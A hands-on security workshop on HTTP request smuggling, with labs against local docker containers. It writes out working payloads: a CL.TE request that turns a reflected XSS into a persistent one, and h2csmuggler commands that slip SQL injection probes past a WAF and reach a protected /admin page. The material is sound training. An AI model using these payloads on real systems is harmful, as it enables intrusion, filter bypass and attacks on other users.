

id: request-smuggling-workshop
summary: This workshop provides an overview of the latest research on HTTP Request Smuggling (HRS), an attack abusing inconsistencies between the interpretation of requests’ ending by HTTP request parsers. The attack occurs when, for the same stream, the proxy component sees one request while the web backend component sees another request. The most common risks will be presented, along with a set of payload variations and a live attack demonstration.
authors: Philippe Arteau
feedback link: https://github.com/GoSecure/request-smuggling-workshop/issues
analytics account: UA-153352998-3

# Introduction to Request Smuggling

<!-- =========================== -->

## Introduction
Duration: 00:05:00


Welcome to the workshop segment of this presentation on Request Smuggling. Now is the time to put the theory discussed into practice.

At the end of the workshop, you will be familiar with four attack variants of HTTP Request Smuggling. You will also have a test environment to experiment further with the attack. All the custom applications and system configurations are open-source.

### Requirements

The only requirement is to have an HTTP interception proxy installed. BurpSuite is the only one recommended  for its support for HTTP2.

 - [Burp Suite](https://portswigger.net/burp)


### Running the applications

To do the exercises, you will need to run the [lab applications](https://github.com/GoSecure/request-smuggling-workshop) by yourself. All applications were built with a docker container recipe. This should make the deployment easier.


1. Download the code.
```
$ git clone https://github.com/GoSecure/request-smuggling-workshop
```
2. Read build instructions (`/README.md`) from each application. This step will differ for each application.
3. Use docker-compose to start the application.
```
$ docker-compose up
```

### Optional DNS configuration

In order to make the links work, you can optionally add an entry to your local host file. (`/etc/hosts` or `C:\Windows\system32\drivers\etc\hosts`)
```
127.0.0.1   request-smuggling.gosec.co
```


### Video presentation

You can watch the complete workshop on video. From the video, you will be able to listen to all the tutorials and see the demonstrations for all exercises.
Open the [YouTube page in a new window](https://youtu.be/XXXXXXXXXXXXX) to see the chapters.

<!--Replace with video -->


## Intro: HTTP Tunneling 
Duration: 00:06:00


### HTTP protocol evolution

In early versions of HTTP (version 1.0 and before), every request is one TCP connection. This method was enough to support simple HTML websites. However, a sophisticated website will required external resources such as images and JavaScript causing numerous TCP handshakes.

Version 1.1 aimed to improved those weekness. HTTP/1.1 uses by default persistent connections to transmit multiples requests. This version also introduces the `Transfer-Encoding` header which is key to some HRS attacks. *(It will be explained later)*


### Multiple requests in the same TCP socket

When a client is requesting multiple resources (Javascript, Images, Pages, Ajax requests), requests can follow each other in the same TCP socket. The outgoing stream would look like the code below.

```
GET /index.php HTTP/1.1
Host: myapp.com
Content-Length: 0

POST /login HTTP/1.1
Host: myapp.com
Content-Length: 33

username=admin&password=i<3intent
GET /logo.gif HTTP/1.1
Host: myapp.com
Content-Length: 0
```

How does the server know where a request ends and a new request starts? Easy. A request is made up of a header section and a body section. The headers can have any length and are terminated by `\r\n`. The body section has variable length. In the previous outgoing stream, the server can determine the size of the body section using the `Content-Length` header.


### Where is the confusion?

The confusion appears when the proxy and the backend server do not agree on the size of each request. This is because these systems may have HTTP parsers that have a slightly different implementation. As soon as a parser is more flexible when implementing the protocol, it can potentially be abused.

In a typical scalable web infrastructure, a proxy will place in front of the backend. The proxy is forwarding a request to the backend with the intent to add functionality such as caching, firewall, or load balancing.


<!-- =========================== -->

## Intro: HRS evolution
Duration: 00:02:00

The research on HRS has evolved over the past 15 years. While this vulnerability class is not exactly new, most of the development on the topic happens from 2019 to 2021.

### Key researches


#### 2004: [HTTP Response Splitting, Web Cache Poisoning Attacks, and Related Topics](https://dl.packetstormsecurity.net/papers/general/whitepaper_httpresponse.pdf)
*by Amit Klein*

This first paper demonstrates the impact of desynchronizing response in an HTTP stream. While this is not Request Smuggling per say, it has very similar effects and impacts.

#### 2005: [HTTP request smuggling](https://doc.lagout.org/Others/EN-HTTP-Request-Smuggling.pdf)
*by Chaim Linhart, Amit Klein, Ronen Heled and Steve Orrin*

The "HTTP Request Smuggling" paper was the first to document the impacts of desynchronizing the HTTP pipeline. Those impacts include Web Cache Poisoning, Firewall/IPS/IDS evasion and Request Hijacking.

#### 2016: [Hiding Wookiees in HTTP](https://media.defcon.org/DEF%20CON%2024/DEF%20CON%2024%20presentations/DEF%20CON%2024%20-%20Regilero-Hiding-Wookiees-In-Http.pdf) 
*by Regis Leroy (@regilero)*

Multiple new variants were presented including newline confusion `\n` / `\r\n`, HTTP 0.9, typo in `Transfer-Encoding`, integer overflow for `Content-Length` and attribute truncation. The tool HTTPWookie was release to test proxies.

#### 2019: [HTTP Desync Attacks: Request Smuggling Reborn](https://portswigger.net/research/http-desync-attacks-request-smuggling-reborn)
*by James Kettle*

In this article and research, James Kettle identifies numerous variations with the header `Transfer-Encoding`. Along the paper release, a Burp plugin named [HTTP Request Smuggler
](https://portswigger.net/bappstore/aaaa60ef945341e8a450217a54a11646) was released.

#### 2019: [Smuggling HTTP requests over fake WebSocket connection](https://github.com/0ang3el/websocket-smuggle) 
*by Mikhail Egorov (@0ang3el)*

This research introduces a very different approach to request smuggling. It does not involve a complete desynchronization of HTTP tunneling. Instead, it hides an HTTP/1.1 request inside an "invalid" WebSocket stream.

#### 2020: [h2c Smuggling: Request Smuggling Via HTTP/2 Cleartext (h2c)](https://bishopfox.com/blog/h2c-smuggling-request)
*by Jake Miller (@theBumbleSec)*

Inspired by the WebSocket technique, Jake Miller found a new variant that abuse the capabilities of some backend application to support HTTP2 Cleartext protocol. This mode is started as a HTTP/1 over TLS. It then switches to a HTTP/2 after an upgrade request similar to the one used in WebSocket communication.

#### 2021: [HTTP/2: The Sequel is Always Worse](https://portswigger.net/research/http2)
*by James Kettle*

This recent development introduces implementation mistakes from a proxy that proxy from HTTP/2 to HTTP/1. The support for TLS or HTTP2 is often delegated to the load balancer. This facilitate the deployment of web applications. If the web application containers (NodeJS, .NET core, Jetty, Tomcat, etc) does not support HTTP/2, the proxy needs to convert HTTP/2 request headers to the HTTP/1 protocol. This conversion is subject to error if the HTTP/2 are not validated strictly.

<!-- =========================== -->

## HTTP/1.1 CL.CL
Duration: 00:06:00

### Duplicate Content-Length (CL.CL)

The first edge case that was documented was the use of two `Content-Length` headers with conflicting values. This cause issue when the proxy and the backend do not use the same value. How can this be possible? Because the parsers are implemented differently, one implementation might keep the last seen header while an other could keep the first one.

*Implementation where the last value is kept*
```python
headers = {}
for line : httpRequest
    parts = line.split(":")
    headers[parts[0]] = parts[1]
```


*Implementation where the first value is kept*
```python
headers = {}
for line : httpRequest
    parts = line.split(":")
    if(parts[0] in headers): #Does not override existing value
        headers[parts[0]] = parts[1]
```

### What each party sees in a CL.CL attack

The proxy **use the first** header:


The backend application **use the last** header:



### Cache poisoning

In the diagram below, we can see that proxy is not interpreting the correct resource served by the web application.


### There is more...

This scenario is probably the easiest to understand. This is why it was presented first. However, the length of the request is **not defined only by Content-Length**. HTTP has evolved greatly and has multiple headers that cover similar features.

<!-- =========================== -->

## HTTP/1.1 CL.TE
Duration: 00:06:00

### HTTP/1.1 Content-Length Transfer-Encoding (CL.TE)

`Content-Length` is not the only one that can be used in an HTTP/1.1 request.

### Chunked encoding

> “Chunked encoding is useful when larger amounts of data are sent to the client and the total size of the response may not be known until the request has been fully processed.”
> 
> Ref: [Mozilla.org: Transfer-Encoding](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Transfer-Encoding)

It can be used to serve large files generated on the fly. An example can be seen below. The length is in hexadecimal followed by the bytes "chunk".

```
HTTP/1.1 200 OK
Content-Type: text/plain
Transfer-Encoding: chunked

5\r\n
Hello\r\n
8\r\n
NorthSec\r\n
B\r\n
Conference!\r\n
0\r\n
\r\n
```

The same transfer-encoding type can be used to format the request.

```
POST /index.php HTTP/1.1
Host: myapp.com
Transfer-Encoding: chunked

5\r\n
Hello\r\n
8\r\n
NorthSec\r\n
B\r\n
Conference!\r\n
0\r\n
\r\n
```

### Content-Length vs Transfer-Encoding

The server now has an additional dilemma if both `Content-Length` and `Transfer-Encoding`. Luckily, the HTTP/1.1 RFC is describing the expected scenario.

“If a message is received with both a Transfer-Encoding header field and a Content-Length header field, the latter MUST be ignored.”
Ref: [RFC2616 - HTTP/1.1](https://datatracker.ietf.org/doc/html/rfc2616)

`Transfer-Encoding` must be used first.

Negative
: However `Transfer-Encoding` might not be supported by both services. In 2021, that would be a major oversight.


## LAB 1: HTTP/1.1 CL.TE
Duration: 00:20:00

For this first lab, you will need to add the following entry to your `hosts` file (`/etc/hosts` or `c:\windows\system32\drivers\etc\hosts`).
```
127.0.0.1 simplewebsite.gosec.co
```

Open `http://simplewebsite.gosec.co` in a browser to confirm that everything is running.


### HRS detection

The following request need to repeated ~10 times until you get `405 Not Allowed` (Method not allowed)
```
POST / HTTP/1.1
Host: simplewebsite.gosec.co
Content-Length: 79
Transfer-Encoding: chunked

0

G
```

Negative
: We need to repeated the following request multiple times. It is the result of connection pool usage between the proxy and the backend. There is more than one connection that are kept alive.

### Finding a XSS vector

There are two main vectors to execute Javascript on a system vulnerable to HRS.

 - Causing an open-redirect
 - Transforming a reflected XSS in a persistent XSS.

### From limited to persistent XSS

Injecting an HTTP request in the proxy pipeline.

```
POST / HTTP/1.1
Host: simplewebsite.gosec.co
Content-Length: 79
Transfer-Encoding: chunked

0

GET /contact.php?test=123"> HTTP/1.1
Foo:
```

Once this is sent. Refresh the home page or any page on the website until it is placed after the previous malicious request.
You should see the XSS trigger.

<!-- =========================== -->

<!-- ## LAB 2: HTTP/2 (TODO)
Duration: 00:20:00 -->

<!-- =========================== -->

## WebSocket HRS

### Web Socket in a nutshell

WebSocket communication is full-duplex communication that takes place inside a HTTP/1. While typical HTTP/1 messages can be sent in full-duplex, classic HTTP require all messages to have a headers and body section. WebSocket allows lightweight communication along with the control over the Socket with Javascript.

<!--TODO: Screenshot wireshark-->

### 

<!--
@startuml
Client->Proxy: HTTP/1 Upgrade h2c
Proxy->Server: HTTP/1 Upgrade h2c

Server->Proxy: 101 Switching protocols
Proxy->Client: 101 Switching protocols

Client->Proxy: HTTP/2 Request
Proxy->Server: HTTP/2 Request

Server->Proxy: HTTP/2 Response
Proxy->Client: HTTP/2 Response
@enduml
-->


### Request Smuggling opportunity

It would not be possible to pass an HTTP/1 request once the WebSocket protocol has been established. Once the upgrade is done the receiving application will see incoming traffic as bytes. (Add note regarding encryption)

It is however possible to initiate an incomplete Upgrade request that would fail. If the proxy has a "naive" WebSocket support implementation, it will not at the server response to evaluate if the upgrade succeeds. Using this request fails, it is now possible to pass an additional request to the server. Since it is not in WebSocket mode, it will process the following byte stream as normal HTTP/1.

### Status code validation

Although not all proxies will validate that the upgrade was successful, the most common proxies such as NGINX will be validating the response based on its status code. For those systems, the attack is only effective if an attacker can force a response code to 101 with initiating an actual WebSocket communication.

Mikhail Egorov describe the scenario were a proxy endpoint would make a request to external systems and return the status code from those exchange. If the attacker can control the destination, he could indeed force the status code to 101.

**References:**
 - [Smuggling HTTP requests over fake WebSocket connection](https://github.com/0ang3el/websocket-smuggle) by 0ang3el

<!-- =========================== -->
<!-- ## LAB 3: WebSocket
Duration: 00:20:00 -->


<!-- =========================== -->
## HTTP/1 Upgrade to HTTP/2 cleartext
Duration: 00:06:00


HTTP 2 Cleartext, shorten to h2c, is the protocol upgrade a connection from HTTP version 1 to HTTP version 2. The operation is done without closing the TCP socket.


### HTTP 2 Handshake Sequence

<!--
@startuml
Client->Proxy: HTTP/1 Upgrade: h2c
Proxy->Server: HTTP/1 Upgrade: h2c

Server->Proxy: 101 Switching protocols
Proxy->Client: 101 Switching protocols

Client->Proxy: HTTP/2 Request
Proxy->Server: HTTP/2 Request

Server->Proxy: HTTP/2 Response
Proxy->Client: HTTP/2 Response
@enduml
-->


### Potential abuses

Just like the technique with the WebSocket upgrade, it is possible to create a request that will not be analyzed by the load balancer. Any special processing such as URL filtering could be bypassed.

It can also be an opportunity for an attacker to bypass a Web Application Firewall. We are going to this scenario in practice in the fourth exercise.

**References:**

 - https://labs.bishopfox.com/tech-blog/h2c-smuggling-request-smuggling-via-http/2-cleartext-h2c
 - https://blog.assetnote.io/2021/03/18/h2c-smuggling/
 - https://portswigger.net/daily-swig/h2c-smuggling-proves-effective-against-azure-cloudflare-access-and-more

<!-- =========================== -->

## LAB 4: Upgrade to HTTP/2 cleartext
Duration: 00:25:00

### Scenario 1: Bypassing WAF

Visit `http://localhost:8443/movie?id=1`. If you attempt to tamper with the parameter `id`, you will see that it is filtered by a Web Application Firewall. In this case, NAXSI is configured in front of the web application. Exploiting some vulnerabilities can be much harder *(see impossible)* when a strong firewall is in place. By default, NAXSI is configured to block all quotes `'` characters. However, with the HTTP 2 Cleartext passthrough we just learned, it is possible to send requests that would not be seen by the firewall.

### Validation

First, we need to validate that HTTP2 cleartext is supported by the backend. If the backend application does not support it, this technique will not work.

```
python h2csmuggler.py -x https://127.0.0.1:8443 -t
[INFO] h2c stream established successfully.
[INFO] Success! https://127.0.0.1:8002 can be used for tunneling
```

### Exploitation

When testing for SQL injection, a tester will be blocked right away by the Web Application Firewall in place.

`http://127.0.0.1/movie?id=1'` (see single quote at the end)


We can use the HTTP2 technique to establish an HTTP tunnel with the application directly that will not be interpreted by most proxies.

```
python h2csmuggler.py -x https://127.0.0.1:8443 "http://127.0.0.1/movie?id=1'"
[INFO] h2c stream established successfully.
:status: 200
[...]
[INFO] Requesting - /movie?id=1'
[...]
```


```
python h2csmuggler.py -x https://127.0.0.1:8443 "https://127.0.0.1/?genre=action' or ''='"
[INFO] h2c stream established successfully.
:status: 200
[...]
[INFO] Requesting - /movie?id=1'
[...]
```

### Scenario 2: Acessing forbidden /admin page

The same infrastructure to test proxy-level access bypass. The application has an administrative page that is intended only for system administrators. The control is enforced by the proxy. Therefore, if one request is not interpreted by the proxy, the access control will not be enforced.

```
python h2csmuggler.py -x https://127.0.0.1:8443 http://127.0.0.1/admin'
[INFO] h2c stream established successfully.
:status: 200
[...]
[INFO] Requesting - /admin'
[...]
```

Positive
: Don't forget that the second URL use the port exposed by the web application on the *internal network*. It might not be 80. You can try port such as `5000`, `8000` and `8080`. Since the tunnel is established with the backend server, the host and port might be ignored on the remote application.

### Additional testing possible

This lab allows you to exploit the same vulnerability on 3 proxies. These are 

| TCP port | Description |
|----|----|
| 8001 | HAProxy -> h2c backend (Insecure default configuration) |
| 8002 | nginx -> h2c backend  (Insecure custom configuration) |
| 8003 | Nuster -> HAProxy -> h2c backend (Insecure configuration with multiple layers of proxies) |

Changing the port to 8002 and 8003 can confirm that these two others servers are also vulnerable.

```
>python h2csmuggler.py -x https://127.0.0.1:8001 -t
[INFO] h2c stream established successfully.
[INFO] Success! https://127.0.0.1:8001 can be used for tunneling

>python h2csmuggler.py -x https://127.0.0.1:8002 -t
[INFO] h2c stream established successfully.
[INFO] Success! https://127.0.0.1:8002 can be used for tunneling

>python h2csmuggler.py -x https://127.0.0.1:8003 -t
[INFO] h2c stream established successfully.
[INFO] Success! https://127.0.0.1:8003 can be used for tunneling
```

You can see in the configuration of this workshop that it is using the latest version of each web proxy.
```
[...]
image: haproxy:latest
[...]
image: nginx:latest
[...]
image: nuster/nuster:latest
[...]
```

## Conclusion
Duration: 00:02:00

Request Smuggling is a vulnerability that had numerous new developments in recent history. It will continue to exist as long as new variations are found and new HTTP parsers are implemented with similar mistakes.

If you are interested in testing your application infrastructure, [HTTP Request Smuggler](https://portswigger.net/bappstore/aaaa60ef945341e8a450217a54a11646) seems to be the most complete test suite at the moment. It is not recommended to use it on production systems. It could cause downtime if the probes are successful.

If you like the format of this workshop, we have produced three free workshops that can also be completed at your pace.

[](https://gosecure.github.io/xxe-workshop/) [](https://gosecure.github.io/presentations/2020-05-15-advanced-binary-analysis/) [](https://gosecure.github.io/template-injection-workshop/)

### Documentation References

  - Watchfire Paper: [HTTP request smuggling](https://doc.lagout.org/Others/EN-HTTP-Request-Smuggling.pdf) by Chaim Linhart, Amit Klein, Ronen Heled and Steve Orrin
  - [Hiding Wookiees in HTTP](https://media.defcon.org/DEF%20CON%2024/DEF%20CON%2024%20presentations/DEF%20CON%2024%20-%20Regilero-Hiding-Wookiees-In-Http.pdf) by Regis Leroy (@regilero)
  - [HTTP Desync Attacks: Request Smuggling Reborn](https://portswigger.net/research/http-desync-attacks-request-smuggling-reborn) by James Kettle
  - [HTTP/2: The Sequel is Always Worse](https://portswigger.net/research/http2) by James Kettle
  - [h2c Smuggling: Request Smuggling Via HTTP/2 Cleartext (h2c)](https://bishopfox.com/blog/h2c-smuggling-request) by Jake Miller (@theBumbleSec)
  - [Smuggling HTTP requests over fake WebSocket connection](https://github.com/0ang3el/websocket-smuggle) by Mikhail Egorov (@0ang3el)

### Credits for code used in the infrastructure

This workshop was create based on open-source projects and samples.

 - [Docker samples for Apache Traffic Server](https://regilero.github.io/english/security/2019/10/17/security_apache_traffic_server_http_smuggling/#toc5) by Regis Leroy [@regilero](https://twitter.com/regilero)
 - [HRS WebSocket POC](https://github.com/0ang3el/websocket-smuggle) by Mikhail Egorov [@0ang3el](https://twitter.com/0ang3el)
 - [HRS HTTP/2 Cleartext POC](https://github.com/BishopFox/h2csmuggler) by Jake Miller (BishopFox) [@thebumblesec](https://twitter.com/thebumblesec?lang=en)
 - [Zuul code sample](https://github.com/Netflix/zuul) by Various Zuul/Netflix Developpers
